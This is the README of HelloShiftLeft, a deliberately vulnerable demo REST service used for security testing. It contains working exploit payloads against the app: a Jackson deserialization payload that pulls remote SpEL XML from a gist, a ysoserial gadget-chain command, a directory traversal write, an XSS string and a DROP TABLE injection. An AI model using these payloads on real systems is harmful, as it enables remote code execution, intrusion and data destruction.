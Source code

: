 # HelloShiftLeft

This is a demo application which provides a real world representation of a REST service that uses a mix of convention 
and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as 
sensitive data leaking to logs, data secrets leaks, deserialization and XSS vulnerabilities  etc. The sample sensitive 
data is a mix of financial data such as account information, medical data of patients, and other PII data such as 
customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or 
channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilities. The application is built on the 
[Play Framework](https://www.playframework.com/) and exposes a series of endpoints and APIs for queries and simulating 
exploits. 

## Package

```
$ git clone https://github.com/ShiftLeftSecurity/HelloShiftLeft.git
$ cd HelloShiftLeft
$ sbt stage
```

This should generate the target target artifact `./target/helloshiftleftplay-0.0.0-SNAPSHOT.jar`

## Run

```
$ sbt run
$ curl -I http://localhost:8082
```

#### Standalone Package and Run

Standalone JAR can also be packaged and run as follows:

```
$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/HelloshiftleftPlay-assembly-0.0.0-SNAPSHOT.jar
``` 

## HTTP Routes

See all available routes at [config/routes](config/routes). Use `localhost` as host name in the URLs


## Exercise Vulnerabilities and Exposures
HelloShiftLeft contains some common vulnerabilities that can be exercised and tested - some of 
which have been described below. 


### Jackson Deserialization

The route `/bean1599` accepts POST operations and deserializes via Jackson the received body data. The file 
`exploit.json` contains the payload for CVE-2017-17485. Instead, the file `exploitold.json` provides the payload for 
CVE-2017-7525.

**`exploit.json`**:

```json
{
   "name":"124",
   "id":[
      "org.springframework.context.support.FileSystemXmlApplicationContext",
      "https://gist.githubusercontent.com/vaiocosl/bcfda49d1035bea12381e9cac199b491/raw/1cac1fffa16a6125552ca686dca9cf49ad3b18c6/spel.xml"
   ]
}
```

To run the exploit, first run the server with `sbt run` then type following commands:

```
$ export payload=`cat exploit.json`
$ curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

#### Further Reading

* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://github.com/irsl/jackson-rce-via-spel

### Java Deserialization 

Route `/unmarsh` retrieves the `lol` parameter from the received POST request, decode64 its values and finally calls 
`readObject`. To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
$ curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
$ curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64

```
### Directory Traversal

Route `/saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the 
attacker controllable cookies. To exploit the vuln use the `exploits/filewriteexploit.py` script, as shown below:

```
$ python filewriteexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for 
the directory traversal is passed as second argument.

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the hidden /debug endpoint as follows:

http://localhost:8082/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=1982-01-01&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432%3Cscriscriptpt%3Ealert(1)%3C/sscriptcript%3E

It raises and alert dialogue and returns the Customer object data.

### SQLi
A simple malicious query can be passed to the `/rawcustomers` route as follows, though this vulnerability is not 
implemented in the code as of now:

```
http://localhost:8082/rawcustomers/1;%20DROP%20table%20customer
```

---

(C) 2018 ShiftLeft Inc.